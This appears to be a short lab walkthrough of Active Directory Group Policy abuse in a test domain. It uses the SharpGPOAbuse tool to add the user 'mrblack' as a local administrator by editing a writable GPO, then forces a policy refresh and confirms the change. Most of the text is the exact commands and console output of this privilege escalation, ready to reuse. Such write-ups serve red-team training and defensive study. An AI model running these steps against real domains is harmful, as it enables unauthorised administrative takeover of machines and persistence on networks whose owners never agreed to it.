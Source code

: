 https://github.com/FSecureLABS/SharpGPOAbuse

https://github.com/byronkg/SharpGPOAbuse/tree/main/SharpGPOAbuse-master

users has gpo write permissions

![image](https://user-images.githubusercontent.com/13157446/137199957-d1dd3c7e-3843-4ccb-8ed0-3564a935d698.png)


we will use "SharpGPOAbuse.exe "  and edit gpo to add a user to local admin group

check current local admins

	PS C:\Users\testuser\Desktop\PowerSploit\Recon> net localgroup administrators
	Alias name     administrators
	Comment        Administrators have complete and unrestricted access to the computer/domain

	Members

	-------------------------------------------------------------------------------
	adm1n
	Administrator
	nightmare
	VALHALLA\Domain Admins
	win10
	The command completed successfully.

abuse permissons

	PS C:\Users\testuser\Desktop\PowerSploit\Recon> .\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount mrblack --GPOName "vulngpo"
	[+] Domain = valhalla.local
	[+] Domain Controller = odin.valhalla.local
	[+] Distinguished Name = CN=Policies,CN=System,DC=valhalla,DC=local
	[+] SID Value of mrblack = S-1-5-21-3410397846-649609989-2919355437-2121
	[+] GUID of "vulngpo" is: {15DD3A52-32EB-4A98-ACAF-476C235E7968}
	[+] Creating file \\valhalla.local\SysVol\valhalla.local\Policies\{15DD3A52-32EB-4A98-ACAF-476C235E7968}\Machine\Microsoft\Windows NT\SecEdit\GptTmpl.inf
	[+] versionNumber attribute changed successfully
	[+] The version number in GPT.ini was increased successfully.
	[+] The GPO was modified to include a new local admin. Wait for the GPO refresh cycle.
	[+] Done!
	

get policy update

	PS C:\Users\testuser\Desktop\PowerSploit\Recon> gpupdate /force
	Updating policy...

	Computer Policy update has completed successfully.
	User Policy update has completed successfully.

check local admins after abuse

	PS C:\Users\testuser\Desktop\PowerSploit\Recon> net localgroup administrators
	Alias name     administrators
	Comment        Administrators have complete and unrestricted access to the computer/domain

	Members

	-------------------------------------------------------------------------------
	Administrator
	VALHALLA\mrblack
	The command completed successfully.

check current users

	PS C:\Users\testuser\Desktop\PowerSploit\Recon> net user

	User accounts for \\PC-WIN10

	-------------------------------------------------------------------------------
	adm1n                    Administrator            DefaultAccount
	Guest                    nightmare                WDAGUtilityAccount
	win10
	The command completed successfully.

	PS C:\Users\testuser\Desktop\PowerSploit\Recon>

